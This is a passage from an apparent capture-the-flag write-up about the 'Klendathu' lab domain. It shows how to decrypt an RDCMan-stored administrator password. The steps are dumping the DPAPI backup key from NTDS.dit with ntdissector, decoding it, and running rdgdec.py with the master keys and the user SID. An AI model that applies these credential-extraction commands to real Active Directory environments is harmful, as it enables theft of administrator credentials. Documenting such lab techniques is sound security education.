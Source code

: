 ```xml
      <logonCredentials inherit="None">
        <profileName scope="File">KLENDATHU\administrator</profileName>
      </logonCredentials>
    </server>
  </file>
  <connected />
  <favorites />
  <recentlyUsed />
</RDCMan>
```
So we have a encrypted password

After extracting the .zip we have also the path of master keys "./Roaming/Microsoft/Protect"

[Decrypt RDG with mimikatz](https://tools.thehacker.recipes/mimikatz/modules/dpapi/rdg)

We will therefore have to do a little bit like that (i mean in the idea) but in local thanks to what we have recovered im the smb

Using ntdissector :

[Windows secrets extraction: a summary](https://www.synacktiv.com/publications/windows-secrets-extraction-a-summary)

[The github](https://github.com/synacktiv/ntdissector)

[Introducing ntdissector, a swiss army knife for your NTDS.dit files](https://www.synacktiv.com/publications/introducing-ntdissector-a-swiss-army-knife-for-your-ntdsdit-files)

```bash
ntdissector -ntds /home/samy/ntds.dit -system /home/samy/SYSTEM -outputdir /tmp/test -ts -f all

cat /tmp/test/out/319ca86c07a0995d470fce37e50c44fb/secret.json | jq

# get the pvk
HvG1s[...]MuzV4=

echo "HvG[...]zV4=" | base64 -d > pvk.key
```
We need this private key with the path where the master keys are located, we also need the SID of the user that was used to encrypt the data in order to decrypt DPAPI blobs

Then i asked to ChatGPT to give me a python script on a github for decrypt the .rdg file using : PVK File, Master-Keys and the SID, he built me ​​a tool that didn't work but the tool used "dpapil", so I went to github and came across "rdgdec.py", so I'm going to use this script to decrypt the .rdg file

[Script on the github](https://github.com/tijldeneut/dpapilab-ng/blob/main/rdgdec.py)

```bash
python3 rdgdec.py ../jenkins.rdg --masterkey=../Roaming/Microsoft/Protect/S-1-5-21-641890747-1618203462-755025521-1110/ --sid S-1-5-21-641890747-1618203462-755025521-1110 -k ../pvk.key
```
![alt text](../assets/image_klendathu/11er.png)
